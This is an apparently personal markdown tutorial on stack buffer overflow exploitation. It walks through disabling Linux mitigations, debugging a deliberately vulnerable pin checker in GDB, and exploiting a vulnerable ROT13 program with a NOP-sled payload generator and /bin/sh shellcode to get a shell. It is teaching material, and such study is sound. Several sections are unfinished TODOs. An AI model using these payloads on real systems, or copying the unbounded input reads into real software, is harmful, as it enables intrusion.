


# exploit development

This section uses GDB. For the basics and used plugins see: [GDB ↣](../gdb). You can also use Radare2.
To get familiar with it see: [Radare2 ↣](../radare2).

# toc

<!-- vim-markdown-toc GFM -->

* [theory](#theory)
  * [stack-based buffer overflows](#stack-based-buffer-overflows)
    * [historical contextext](#historical-contextext)
  * [return-oriented programming](#return-oriented-programming)
    * [return-to-libc](#return-to-libc)
    * [return-to-PLT](#return-to-plt)
* [countermeasures](#countermeasures)
  * [NX bit](#nx-bit)
  * [stack canaries](#stack-canaries)
  * [ASLR](#aslr)
  * [PIE](#pie)
  * [CFI](#cfi)
* [the basics](#the-basics)
  * [check_pin: source](#check_pin-source)
  * [check_pin: compilation](#check_pin-compilation)
  * [check_pin: testing](#check_pin-testing)
  * [check_pin: crash investigation](#check_pin-crash-investigation)
* [demos](#demos)
  * [get a shell by smashing the stack](#get-a-shell-by-smashing-the-stack)
* [sources and further reading](#sources-and-further-reading)

<!-- vim-markdown-toc -->

# theory

## stack-based buffer overflows

First popularized by the Morris worm and Elias Levy (aka. Aleph One) in his article for Phrack Magazine ([[smash]](#sources-and-further-reading)),
buffer overflows are one of the most common weaknesses in software.

They happen when a process writes past the confines of a fixed-sized buffer that is stored on the stack ([[cwe121]](#sources-and-further-reading)).
Depending on the specific memory layout this can allow for arbitrary code execution.

### historical contextext

The severity (and feasability) is impacted by a combination of low-level architectural- and high-level language-design decisions.

While stack-based buffer overflows are possible in Harvard architectures ([[hrvd]](#sources-and-further-reading)),
the coexistance of data and instructions in the same address space in Von Neumann architectures makes them potentially more powerful.

Usually to improve performance, some languages (C/C++) don't enforce perimeters of buffers (arrays in this case) nor perform bounds checking.

## return-oriented programming

Return-oriented programming uses stack based overflows to jump to existing instructions out of order.
ROP allows working around security measures that try to prevent arbitrary code execution.
The target of a jump is seen as valid because it's part of the original program or used libraries.

### return-to-libc

TODO write about bypassing the NX bit by jumping to the C standard library

### return-to-PLT

TODO write about bypassing ASLR by jumping to the Procedure Linkage Table

# countermeasures

This section covers exploit mitigation techniques and how to disable them to make writing
the first exploit easier. This should only be done in a VM. This section focuses on Linux and gcc.

## NX bit

NX stands for No eXecute. This technology tries to remedy the issue that the Von Neumann architecture
uses the same memory for instructions and data which can result in arbitrary code execution.

> architecture-von-neumann-issue.jpg

</img>

The NX bit allows marking specific segments as executable or not executable.
This prevents arbitrary code execution from the stack (by crashing the process).
It does not prevent return-to-libc attacks as the memory that contains
the C Standard library has to be executable.

---

To enable execution of instructions on the stack, gcc can be passed the `-z execstack` linker flag.

## stack canaries

Also known as stack cookies.

Provide stack smashing protection by pushing an additional value to the stack (on function calls).
On function return that value is checked and if it is incorrect it means the stack has been smashed.
In that case the program terminates with `SIGABRT` and warns about attempted stack smashing:

> stack-canary-triggered.jpg

</img>

---

By default this is disabled in gcc, but some distributions patch gcc to enable it.
To disable stack canaries pass the `-fno-stack-protector` flag to gcc.

## ASLR

TODO write about Address Space Layout Randomization.

---

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` (until reboot)

## PIE

TODO write about Position Independent Executables.

---

`-fno-pie`, `-no-pie`

## CFI

TODO write about Control-Flow Integrity.

---

`-fcf-protection=none`

# the basics

We'll use a small program (`check_pin`) with a subtle bug to look at how a stack buffer overflow can happen and what consequences might follow.

## check_pin: source

This program asks the user for a pin via stdin.<br>
There are two expected outcomes when running it:

1. if the pin is correct it exits with return value `0`
2. if the pin is wrong it exits with return value `1`

A possible usage scenario would be: `./check_pin && echo correct || echo wrong!`. Here's the source:

> check_pin.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define INSTRUCTIONS "enter 3 digit pin:\n"

int check_pin() {
	char buffer[4]; // pin + null terminator.
	scanf("%s", buffer); // read pin.
	// compare pin char by char:
	while (strcmp(buffer, "042") != 0)
		return EXIT_FAILURE; // usually 1.
	return EXIT_SUCCESS; // usually 0.
}

int main(int argc, char** argv)
{
	printf("%s", INSTRUCTIONS);
	return check_pin();
}
```

* *note the following:*
  * we reserve 4 Bytes for our `buffer` char array
    * 3 for the pin + 1 for the C-string `NULL` terminator that `scanf()` outputs
  * **we never actually check how long the user input is**
    * we just take whatever the user provided to us and stuff it into our buffer

## check_pin: compilation

Let's compile it!

> compiling check_pin.c with gcc:
```sh
gcc check_pin.c -o check_pin -ggdb \
    -m32 -mpreferred-stack-boundary=2 \
    -z execstack -fno-stack-protector \
    -fno-pie -no-pie \
    -fcf-protection=none
```

* *note the following:*
  * `\`s are used to break up the command into multiple lines
  * `-o` specifies our executable name
  * `-ggdb` tells gdb to add debug symbols in its native format
  * `-m32` create 32-bit machine code
  * `-mpreferred-stack-boundary=2` align stack pointer to 4 Bytes (2^n)
  * all the other flags disable various exploit mitigations<br>(see [countermeasures ↣](#countermeasures) section)

## check_pin: testing

Let's test it!

> check_pin with wrong pin:

```sh
./check_pin < <(echo 123) && echo correct || echo wrong!
```

> check_pin-wrong.jpg

</img>

> check_pin with correct pin:

```sh
./check_pin < <(echo 042) && echo correct || echo wrong!
```

> check_pin-correct.jpg

</img>

Looks like our little program works just as we intended it to.

---

We know our program works fine if we follow the instructions.<br>
Let's see what happens when we stray from the happy path!

> check_pin with overlong input:

```sh
./check_pin <(echo aaaabbbbcccc) && echo correct || echo wrong!
```
> check_pin-segmentation-fault.jpg

</img>

Interesting.

Somewhere along the way we got a segmentation fault.

We still get a `wrong` because segmentation faults produce a return code of `139`
and that is not the same as `0`.<br>
In case you are wondering why `139`: unsuccessful termination produces an error
of `128` plus the signal code that was the reason for the termination. The code for a segmentation violation is `11`.
See: `man 7 signal`.

## check_pin: crash investigation

The signal segmentation violation/`SIGSEGV` means our program tried to access an invalid memory address.<br>
Let's give it another go from within gdb to find out why that happened.

> segfault investigation with gdb:

```sh
gdb check_pin

# (gdb)
break *main
run < <(echo aaaabbbbcccc)
# this starts our program and runs it until we hit main+0.
# we use input redirection so we don't have to enter our input
# to scanf() during our debugging session.

# from here on out we `step` over C source lines:
step # step over `{`, the function prologue.
step # step over the printf() call.

# we have stopped just before calling check_pin():
```

> check_pin-before-call.jpg

</img>

* *note the following:*
  * gdb gef shows us seven different sections that are labeled in the top right (see [gdb ↣](../gdb) for details)
  * (a.) shows the instruction pointer, it points at the address of the *upcoming instruction*
    * its value is `0x080491e1`, which is the `call 0x8049196` instruction; compare with (c.)
  * (b.) this line is the youngest entry on the stack, note the address `0xffffd438`
  * (c.) this is the machine instruction that will be executed next
  * aditionally we get the position in the original source as well (thanks to debug symbols)
    * for each line of C code there can be multiple assembly instructions

Now we step a single instruction (`stepi`) to execute `call <check_pin+0>`:

> check_pin-after-call.jpg

</img>

* *note the following:*
  * (a.) the instruction pointer has been updated, now it points to the first instruction in `check_pin`
  * (b.) the stack just grew by 4 Bytes (compare the address with the previously youngest item)
    * `call` instructions push the *return address* of the calling function onto the stack
    * **this is how we keep track of where execution should continue after a function ends**
    * at the end of `check_pin` this address is popped and the instruction pointer set to it
  * (c.) the next instruction is `push ebp`
    * this will backup the *base pointer* of the previous stack frame to the stack
    * this way it can be restored when we return
  * if you compare the previous `trace` section to this one you will see that we gained a line
    * this displays the backtrace, a list of function calls
    * `#0` is always the current one and the higher the number the older the call

Use `stepi 3` to step over the first three instructions of the `check_pin` function.<br>
This block is called the function prologue and its purpose is to set up the stack frame for `check_pin`.

The function prologue will:
* backup the base pointer to the stack,
* change the value of the base pointer to that of the stack pointer,
* and then grow the stack by 4 more Bytes to accomodate our `buffer`.

This will be our new state:

> check_pin-after-prologue.jpg

</img>

* *note the following:*
  * The three youngest items on the stack are:
    * (a.) 4 Bytes: the return address to `main`
    * (b.) 4 Bytes: the backup of the base pointer of `main`s stack frame
    * (c.) 4 Bytes: space for our `buffer` array

---

Let's create a drawing of our current stack layout.<br>
We'll add another 4 Bytes above the return address to symbolize that the stack continues on (upwards).

> check_pin-input-layout.jpg

</img>

* *note the following:*
  * above our buffer is the backup of `main`s base pointer
  * above the backup of the base pointer is the return address to `main`

---

This works fine as long as we stick to the instructions of our program.
3 Bytes for the pin plus 1 spare Byte for the `NULL` terminator:

> check_pin-input-valid.jpg

</img>

* *note the following:*
  * the stack grows down
  * our buffer array grows up
    * the reason is C's array indexing/pointer arithmetic

---

Here's the problem though: we provided an overlong input and the program never checked the length.<br>
`scanf()` does not care and mindlessly continues to write Bytes as if our buffer was longer.

> check_pin-input-overlong.jpg

</img>

* *note the following:*
  * `scanf()` has no concept of buffer length
    * it simply calculates the address for `buffer[n]`
    * the first `b` lands in `buffer[4]`, even though that's past the reserved space
  * Bytes 0-3 (`aaaa`) land in our buffer
  * Bytes 4-7 (`bbbb`) overwrite the backup of the base pointer
  * Bytes 8-11 (`cccc`) overwrite the return address
  * Byte 12 (`NULL`) overwrites whatever is above the return address

When `check_pin()` returns to `main()` the trashed base pointer is restored.<br>
**Crucially, in the next step the instruction pointer is trashed via the popped return address.**

The instruction pointer is set to `cccc` (hex `0x63 63 63 63`) and since we can't jump to that address we get a segfault.

---

If we let the rest of the program run out with `continue` we can see the state after the crash:

> check_pin-after-crash.jpg

</img>

* *note the following:*
  * (a.) the base pointer was set to `bbbb`
  * (b.) the instruction pointer was set to `cccc`
  * (c.) we got a `SIGSEV` because `cccc` in hex is not an address we can access

We don't have much use for the base pointer, but control over the instruction pointer is fantastic:

**We can jump anywhere we please!**

# demos

These are small independent demos that demonstrate a single technique each.


## get a shell by smashing the stack

Let's set the scene:

*We are running a small message board where people can talk about the latest
Sci-Fi novels. To avoid ruining the fun for other readers we would like to make use
of ROT13 to encrypt spoilers in a way that is hard to read but easy to decrypt
with common browser plugins.*

We have found a C program that looks good:

* The code is very well documented,
* apparently it's tested with a wide range of data,
* it compiles on the first try,
* and we were able to successfully call it from PHP!

Here it is:

> rot13.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define INSTRUCTIONS "enter your text to rot13 it:"
#define ROTATE_BY 13

// This is my secure implementation of the ROT13 algorithm.
// It has been successfully tested with a wide range of input.
// ROT13 is fun, feel free to use it everywhere!
void rot13()
{
  char buffer[500] = { 0 }; // zero out our text buffer.
  int i; // We are ANSI C compliant!

  scanf("%[^\n]", buffer); // read everything until we encounter a newline.

  // iterate over our input:
  for (i = 0; i < strlen(buffer); i++)
  {
    int c = buffer[i]; // cast current char to int.
    if ( (c >= 'A' && c <= 'Z') ) c -= ('A'-'a'); // lowercase A-Z.
    if ( (c >= 'a' && c <= 'z') ) // for a to z:
    {
      c -= 'a'; // a = 0, z = 25, great for modulo shenanigans.
      c += ROTATE_BY; // the actual rotation.
      c %= ('z'-'a'+1); // make sure we stay in mod 26.
      c += 'a'; // back to ASCII so we can print it.
    }
    putchar(c); // print rotated char (or original symbol).
  }
  putchar('\n'); // add a linebreak at the end of the text.
}

int main(int argc, char** argv)
{
  // let the user know what to do:
  puts(INSTRUCTIONS);

  rot13();
  return EXIT_SUCCESS;
}
```

*Unfortunately comments can lie and it has the same bug as the [check_pin](#check_pin-source) example. Even worse
it uses a big buffer: perfect for depositing shell-code. Someone used this vulnerability to deface our message board
with fantasy novels!*

What happened?

---

```sh
# try to crash it by sending a thousand As via stdin.
./rot13 < <(python -c 'print("A"*1000)')
# yep, crashes.

gdb rot13
# (gdb)

pattern create 1000 # create a De Bruijn pattern.
run # paste it when asked for input.
# search which part of the pattern lands in eip:
pattern search $eip # likely offset: 516.

# let's make sure:
run < <(python -c 'print("A"*516+"BEN!")')
# great, our instruction pointer contains "BEN!",
# which means 516 is indeed the correct offset.
```

We now have the ability to continue the program at an arbitrary address.
Additionally we have control over a large buffer.

**Let's combine the two.**

---

Let us create a very simple payload as a start. For now we will exit the program with return code 0.

> `gen_payload_exit.py`

```python
#!/usr/bin/env python3
# payload layout:
# ---
# nopsled
# code
# spacing
# return_address

import sys
instruction_pointer_offset = 516
return_address="\xDC\xD2\xFF\xFF" # reverse Byte order.
spacing_length = 32

code = (
"\xb0\x01\x31\xdb\xcd\x80"
)
code_length = len(code)

nopsled_length = instruction_pointer_offset - spacing_length - code_length
return_address_length = len(return_address)

payload = (
"\x90" * nopsled_length +
code +
"\xCC" * spacing_length +
return_address
).encode("raw_unicode_escape")
payload_length = len(payload)

with open("payload", "wb") as f:
        f.write(payload)

print("payload layout\n---")
print("nops:\t", nopsled_length)
print("code:\t", code_length)
print("ints:\t", spacing_length)
print("addr:\t", return_address_length)
print("---\nsum:\t", payload_length)
```

> output `gen_payload_exit.py`:
```sh
payload layout
---
nops:    478
code:    6
ints:    32
addr:    4
---
sum:     520
```

> hexdump starting with Byte 400 via `xxd -s400 payload`
```sh
00000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001d0: 9090 9090 9090 9090 9090 9090 9090 b001  ................
000001e0: 31db cd80 cccc cccc cccc cccc cccc cccc  1...............
000001f0: cccc cccc cccc cccc cccc cccc cccc cccc  ................
00000200: cccc cccc dcd2 ffff                      ........
```
* *note the following:*
  * there are 78 nops (plus 400 before that)
  * followed by our 6 Bytes of code
  * followed by 32 Bytes of spacing
    * this is to clear other variables the function might use?
    * this should never be executed (but if it is `CC` will generate a breakpoint interrupt)
  * followed by `dcd2 ffff`, our return address in reverse Byte order
    * due to little endian?
    * letzte Byte im payload wird aeltestes Byte am Stack?

As long as we hit any of the 478 nops (or the first Byte of our code) this will work.

Here's a visual representation (via `radare2`) of the generated payload:

> payload-visual.jpg

</img>

* *note the following:*
  * (a.) the big block at the beginning is our nop-sled
    * if we jump to any address in this block the CPU will skip along it
      * by executing one nop (no-operation) after another
  * (b.) until it hit's the second block, our payload
  * (c.) this block is used to clear space for other variables
    * a common method is to fill this with return addresses as well
  * (d.) this block contains the 4 Byte that land in the instruction pointer register
    * from here we jump to anywhere in the nop-sled
    * the end of this block is the end of the file

---

```sh
gdb rot13

# (gdb)
break *rot13+219 # before the ret.
run < payload # inject payload.
```

---

Let's now use code that'll spawn a `dash`!

> shellcode by Steven C. Hanna, PhD

```sh
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0"
"\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d"
"\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73"
"\x68"
```

> generate and inject payload

```sh
./gen_payload_dash.py
ps -p $$

cat payload - | ./rot13 # keep stdin open.

# sh
# enter, flush buffer.
ps -p $$ # /bin/sh.
tty # not a tty.
python -c "import pty;pty.spawn('/bin/bash')" # proper bash.
uname -a;id;pwd
```

We've got a shell :)

# sources and further reading

* [cwe121] CLASP. (2006). CWE-121: Stack-based Buffer Overflow. Mitre. https://cwe.mitre.org/data/definitions/121.html
* [hrvd] Watts, K., & Oman, P. (2009). Stack-based buffer overflows in Harvard class embedded systems. IFIP Advances in Information and Communication Technology, 311. https://doi.org/10.1007/978-3-642-04798-5_13
* [pracbin] Andriesse, D., & Francisco, S. (2018). PRACTICAL BINARY ANALYSIS Build Your Own Linux Tools for Binary Instrumentation, Analysis, and Disassembly (2nd ed.). No Starch Press.
* [re4b] Yurichev, D. (2013). Reverse Engineering for Beginners. https://beginners.re
* [smash] Alpeph One. (1996). Smashing The Stack For Fun And Profit. Phrack.
